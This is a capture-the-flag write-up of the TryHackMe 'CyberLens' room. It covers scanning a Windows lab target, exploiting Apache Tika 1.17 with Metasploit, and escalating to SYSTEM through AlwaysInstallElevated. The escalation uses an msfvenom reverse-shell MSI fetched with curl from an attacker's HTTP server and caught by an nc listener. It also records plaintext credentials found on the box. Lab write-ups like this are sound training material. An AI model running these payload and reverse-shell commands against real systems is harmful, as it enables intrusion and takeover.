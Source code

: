 Platform: TryHackMe
Room: CyberLens
URL: https://tryhackme.com/r/room/cyberlensp6
Date: June 5, 2024

# Notes
10:21 am
Loaded target machine
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:\Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

10:48 am
Obtained first flag\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)

Navigated to C:\Users\CyberLens\Documents\Management and found file `CyberLens-Management.txt`

File appears to contain credentials:\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/6da3b7e0-1e1f-4a9c-a498-be60ac00cad9)

CyberLens
HackSmarter123

Checked MSI policies and found "AlwaysInstallElevated is enabled, and MSI is Not Disabled\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7546a965-1d72-4e50-a44b-ef550b9119e6)

Created malicious msi file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.205.247 LPORT=4445 -f msi -o malicious.msi`. set listening port to 4445 (to not interfere with open meterpreter shell on port 4444)

started python http server on attacker box `python3 -m http.server` in the same folder as the malicious.msi file

Used curl on victim box to curl the maliciuos.msi file from attacker box `curl http://10.10.205.247:8000/malicious.msi -o malicious.msi`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9cc345fb-54af-47e3-90b7-6503e04d7ad0)

Started nc listener on port 4445 `nc -nlvp 4445` on attacker box

Executed msi file on victim box `./malicious.msi`

Received shell as nt authority\system\ (got root)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/b3a81216-fa79-4d20-a58b-37290fbd9b37)

Navigated to C:\Users\Administrator\Desktop. Found admin.txt file

11:05 am
Obtained root flag from admin.txt file\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9e61b498-eaea-43b9-8fef-07c6872d0f6b)

Closed all open channels to victim box
Room Complete.



